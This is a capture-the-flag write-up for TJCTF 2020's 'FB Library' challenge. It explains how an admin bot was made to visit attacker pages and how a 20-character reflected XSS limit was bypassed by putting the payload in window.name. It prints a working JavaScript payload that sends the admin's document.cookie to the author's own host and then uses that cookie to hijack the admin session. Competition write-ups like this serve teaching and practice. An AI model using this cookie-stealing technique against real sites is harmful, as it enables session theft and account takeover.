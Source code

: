 ```yaml
---
title: TJCTF 2020 FB Library Writeup
category: cyberdiscovery
---
```




I want to make a writeup for this one because it was one of my favourites and I can't find a writeup for it yet on [CTFTime](https://ctftime.org/event/928/tasks/).

Here was the description:

![problem description](/assets/images/fb_library.png)

The [linked website](https://fb_library.tjctf.org/) had a login and registration system that then allowed you to view a catalog of books and then report them to the admin. When you reported, you would go to `/report?url=<book url>` with a success message. We realized we could make it `report` any valid url and it would then open a get request to that url

So for example, when I `report`ed my website http://uzpg.me, I noticed a new GET request with a User-Agent `Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/80.0.3987.0 Safari/537.36`. The most important part here is the **HeadlessChrome** part which is a [Headless Browser](https://en.wikipedia.org/wiki/Headless_browser). A headless browser is an automated way of using a browser without human action.

This meant that we could try and access the cookies and data of this headless browser instance to compromise the `fb_library`. Indeed, the login system we noticed above had a `session` cookie that would log you in. This meant that if we could steal the value of that cookie, we would have admin access.

At first, I tried to report a url that had a `script` that sent me its cookies. Unfortunately, they were empty, because of [Same-Origin Policy](https://en.wikipedia.org/wiki/Same-origin_policy) which prevents a malicious website of accessing cookies of another different domain like the `fb_library` one. 

This meant, the only way I could execute my cookie stealer would be by embedding the payload on the `fb_library` domain. This meant finding another XSS on the website itself. We noticed Reflected XSS in the search bar that allowed you to look for books. But the length of the field was struncated AFTER 20 characters!!! 

Building a cookie stealer in 20 characters would be impossible, so we had to find another way. Some [funny posts](https://jlajara.gitlab.io/posts/2019/11/30/XSS_20_characters.html) had the idea of buying a short domain, but the admins told us no purchase was required. 

My teammate TD scoured the web and found the very interesting `window.name` [property](https://developer.mozilla.org/en-US/docs/Web/API/Window/name). This allows you to store a string across different websites. So for example, I can set its value on my own, and then if I redirect to their website, its value will stay the same. Do you see where I am going? :)

So our trick was to make it go to our website and then have a script that would change the `window.name` property to our payload, and then redirect it to the vulnerable search page by setting the query parameter to `<script>eval(name)`. This evaluates our payload stored in the `window.name` property and executes our cookie stealing payload.

```js
window.name = "window.location = 'http://uzpg.me/' + document.cookie;";
location = "https://fb_library.tjctf.org/search?q=<script>eval(name)/*"";
```

When executed, this `window.name` payload executed on the `fb_library` domain would redirect to my website + the cookie.

At that point, all I had to do was look at the cookie and then change my `session` cookie to log in as admin, and then I had the flag:

![flag](/assets/images/flag_lib.png)
